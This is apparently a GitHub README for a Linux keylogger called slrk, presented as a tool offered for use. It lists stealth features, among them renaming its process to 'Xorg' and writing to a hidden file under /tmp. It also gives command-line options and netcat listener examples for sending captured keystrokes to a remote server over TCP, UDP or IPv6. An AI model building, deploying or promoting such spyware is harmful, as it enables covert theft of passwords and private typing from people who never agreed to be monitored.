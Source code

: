 # Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE:

- #####[TCP]
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- #####[UDP]
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- #####[IPv6]
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
